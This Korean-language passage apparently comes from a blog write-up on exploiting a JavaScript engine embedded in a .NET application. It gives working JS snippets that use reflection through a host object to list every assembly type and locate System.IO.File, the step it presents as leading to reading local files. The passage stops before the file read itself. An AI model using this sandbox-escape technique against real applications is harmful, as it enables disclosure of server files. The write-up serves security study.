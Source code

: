 다시 말해, 우리가 System.Object 타입을 가지고 있고 이것의 어셈블리 속성에 액세스했다면, 현재 컨텍스트에서 System.Object 클래스를 사용하는 모든 클래스를 포함하는 큰 어셈블리가 있습니다. 이는 우리에게 유용합니다. 왜냐하면 로컬 파일을 읽을 수 있는 다른 타입에 액세스하고 싶기 때문에, 우리는 System.IO.File 타입의 ReadAllText 메소드에 액세스함으로써 이를 수행할 수 있습니다. 다음 코드는 어셈블리 내의 모든 타입을 출력합니다.



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1898504329"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

```js
var objectClass = this.ProcessChat_Helper.GetType().BaseType;
var typesArray = objectClass.Assembly.GetTypes();
var len = typesArray.GetLength(0); // Array length = 2594 :"D
var types = [];
for (let i = 0; i < len; i++) {
  types.push(typesArray.GetValue(i).ToString());
}
types.join(", ");
```

<img src="/assets/img/2024-06-30-ExploitingaJavaScriptEngineforNET_16.png" />

어셈블리에 있는 모든 타입들입니다. 2594개의 타입이 있습니다.

## 로컬 파일 노출



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1898504329"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

이제 우리는 System.IO.File 유형이 필요하다는 것을 알았으므로, 해당 유형의 배열에서 인덱스를 가져와 직접 액세스할 수 있어야 합니다.

```js
var objectClass = this.ProcessChat_Helper.GetType().BaseType;
var typesArray = objectClass.Assembly.GetTypes();
var len = typesArray.GetLength(0);
var types = [];
for (let i = 0; i < len; i++) {
  var typeName = typesArray.GetValue(i).ToString();
  if (typeName == "System.IO.File") {
    var index = i;
    break;
  }
}
typesArray.GetValue(index).ToString() + "Type found at index: " + index;
```
